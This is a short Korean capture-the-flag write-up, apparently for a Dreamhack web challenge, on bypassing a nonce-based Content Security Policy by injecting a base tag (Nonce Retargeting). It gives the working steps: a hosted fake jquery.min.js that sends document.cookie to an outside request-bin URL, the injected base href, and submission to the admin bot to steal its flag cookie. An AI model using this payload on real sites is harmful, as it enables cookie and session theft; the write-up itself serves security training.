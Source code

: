 만약 페이지에 임의 마크업을 삽입할 수 있는 취약점이 있지만, nonce CSP 구문으로 인해 스크립트를 삽입할 수 없다고 
가정합니다. 이 때, base-uri CSP 구문을 지정하지 않은 경우 Figure8과 같이 base 태그를 이용하여 임의 자원을 로드할 
수 있습니다. 이와 같은 형태의 공격을 Nonce Retargeting 이라고 부릅니다.


replit으로 html, js 서버를 열어준다 
static/js/jquery.min.js 로 경로를 만들어준다음 
index.html에 <script src="static/js/jquery.min.js"></script> 이 내용을 추가하여 js를 연동시킨다. 
js에 location.href = "https://cggprwk.request.dreamhack.games/?memo=" + document.cookie; 이것만 쓴다. 
alert이나 a onmouseover등은 필요 없다. 그냥 이 내용만 써도 자바스크립트가 충분히 작동한다. 
그리고 해당 웹 url을 <base href="https://LateCanineRecursion.ylogic.repl.co"> 이렇게 추가한 다음 
flag에서 Submit으로 보낸다. vuln에는 해당 쿠키가 없기 때문에 자바스크립트를 주입하여 실행시킬 수는 있지만 
해당 플래그 쿠키를 가져올 수는 없다. 관리자만 가지고 있으므로 submit을 통해 report를 해주는 것이 중요하다. 
